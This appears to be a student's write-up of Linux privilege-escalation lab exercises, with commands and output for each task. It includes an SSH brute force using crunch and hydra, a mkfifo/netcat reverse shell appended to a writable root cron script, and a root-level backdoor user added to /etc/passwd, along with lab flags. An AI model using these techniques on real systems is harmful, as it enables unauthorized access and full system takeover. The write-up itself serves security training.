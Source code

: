# User Trails

2. Connect to the VM 2 machine with the provided credentials and try to get the flag that resides under another user's file.

```bash
# Enumerate users
cat /etc/passwd
	root:x:0:0:root:/root:/bin/bash
	...
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
	...
	sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
	...
	joe:x:1000:1000:joe,,,:/home/joe:/bin/bash
	systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
	eve:x:1001:1001:,,,:/home/eve:/bin/bash
	...

cat .bashrc
	# ~/.bashrc: executed by bash(1) for non-login shells.
	# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
	# for examples
	
	# If not running interactively, don't do anything
	case $- in
	    *i*) ;;
	      *) return;;
	esac
	
	# don't put duplicate lines or lines starting with space in the history.
	# See bash(1) for more options
	export SCRIPT_CREDENTIALS="lab"
	HISTCONTROL=ignoreboth
	...

# In attack machine create wordlist to attempt SSH brute force
crunch 6 6 -t Lab%%% > wordlist                                                 ## NOTE!!!!!!    <view below>
	Crunch will now generate the following amount of data: 7000 bytes
	0 MB
	0 GB
	0 TB
	0 PB
	Crunch will now generate the following number of lines: 1000

hydra ssh://192.168.231.214 -l eve -P wordlist
	...
	[DATA] attacking ssh://192.168.231.214:22/
	[22][ssh] host: 192.168.231.214   login: eve   password: Lab123
```
	- ## NOTE!!!!!!    For some reason, even though stored creds show a lowercase 'l', the password uses the uppercase.  Could be a course mats issue?

- Login as `eve` & retrieve flag
```bash
cat .bashrc
	  elif [ -f /etc/bash_completion ]; then
		. /etc/bash_completion
	  fi
	fi
	export PASSWORD=OS{d95b244a2df03c878ca3ca21b607901a}
```


# Service Footprints

2. Connect to VM 2 as the _joe_ user and retrieve the flag using one of the methods explained in this section.
```bash
watch -n 5 "ps -aux | grep OS{"
	Every 5.0s: ps -aux | grep OS{                                                                      debian-privesc: Wed May  1 14:49:01 2024
	
	root      1321  0.0  0.3  15328  6476 ?        S    14:47   0:00 python3 /root/.scripts/flag4.py OS{ecfa3948eb56a2bf37eff4bd96cfe866}
	joe       1554  0.0  0.1   6376  3324 pts/1    S+   14:48   0:00 watch -n 5 ps -aux | grep OS{
	joe       1593  0.0  0.0   6376   872 pts/1    S+   14:49   0:00 watch -n 5 ps -aux | grep OS{
	joe       1594  0.0  0.0   2384   696 pts/1    S+   14:49   0:00 sh -c ps -aux | grep OS{
	joe       1596  0.0  0.0   6072   820 pts/1    S+   14:49   0:00 grep OS{
```


# Insecure File Permissions

## Cron
2. Connect to VM 2 and look for another misconfigured cron job. Once found, exploit it and obtain a root shell in order to get a flag.
```bash
# Find insecure cron job
grep -i "cron" /var/log/syslog
	May  1 22:22:31 debian-privesc CRON[1318]: (root) CMD (/bin/bash /home/joe/.scripts/user_backups.sh)
	May  1 22:22:37 debian-privesc crontab[1338]: (root) LIST (root)
	May  1 22:22:37 debian-privesc crontab[1340]: (root) REPLACE (root)
	May  1 22:23:01 debian-privesc cron[505]: (root) RELOAD (crontabs/root)
	May  1 22:23:01 debian-privesc CRON[1368]: (root) CMD (/bin/bash /tmp/this_is_fine.sh)
	May  1 22:23:01 debian-privesc CRON[1369]: (root) CMD (/bin/bash /home/joe/.scripts/user_backups.sh)
	May  1 22:23:01 debian-privesc CRON[1367]: (CRON) info (No MTA installed, discarding output)

# Verify writeable
ls -l /tmp/this_is_fine.sh
	-rwxrwxrw- 1 root root 12 May  1 22:22 /tmp/this_is_fine.sh

# Add shell via named pipe
echo >> /tmp/this_is_fine.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.238 5555 >/tmp/f" >> /tmp/this_is_fine.sh

# Start nc listener on attacker vm & grab flag
nc -nlvp 5555
	listening on [any] 5555 ...
	connect to [192.168.45.238] from (UNKNOWN) [192.168.180.214] 52542
	/bin/sh: 0: can''t access tty; job control turned off
ls
	flag.txt
cat flag.txt
	OS{0e42cb3b8c8b22e3f79e1cf1c4e0f11e}
```


## Passwd Auth
Connect to VM 2 and get the flag by elevating to a root shell through password authentication abuse.
```bash
# Create hash
openssl passwd letsgo
	XDEq5.4QkkVVM

# Add user/ passwd
echo "rooot:XDEq5.4QkkVVM:0:0:root:/root:/bin/bash" >> /etc/passwd

# su to new user & grab flag
su rooot
	Password: 

whoami
	root

cd /root
ls
	flag.txt

cat flag.txt
	OS{86d5ee4209a4acf3b68489772581026d}
```